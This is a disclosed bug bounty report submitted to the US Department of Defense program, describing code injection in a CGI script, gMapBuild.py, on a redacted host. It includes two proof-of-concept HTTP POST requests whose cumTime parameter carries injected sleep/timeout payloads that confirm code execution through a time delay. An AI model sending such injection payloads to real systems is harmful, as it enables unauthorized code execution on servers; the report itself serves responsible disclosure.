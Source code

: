 # Сode injection host  █████████

## Report Details
- **Report ID**: 954398
- **URL**: https://hackerone.com/reports/954398
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-09T14:54:50.075Z
- **Disclosed**: 2020-09-03T17:27:02.127Z

## Reporter
- **Username**: e3xpl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Good day,  security team. Host █████████ vulnerable to code injection.
POC
The server makes a time delay.

POST /cgi-bin/gMapBuild.py HTTP/1.1
Host: ███
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Connection: close

mapArea=colP&cumTime=${{"sleep"%2c"13"})}${{"timeout"%2c"13"})}

or

POST /cgi-bin/gMapBuild.py HTTP/1.1
Host: ██████████
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Connection: close

mapArea=colP&cumTime=${sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}

## Impact

Potential execution of arbitrary code.
https://owasp.org/www-community/attacks/Code_Injection

## Attachments
No attachments
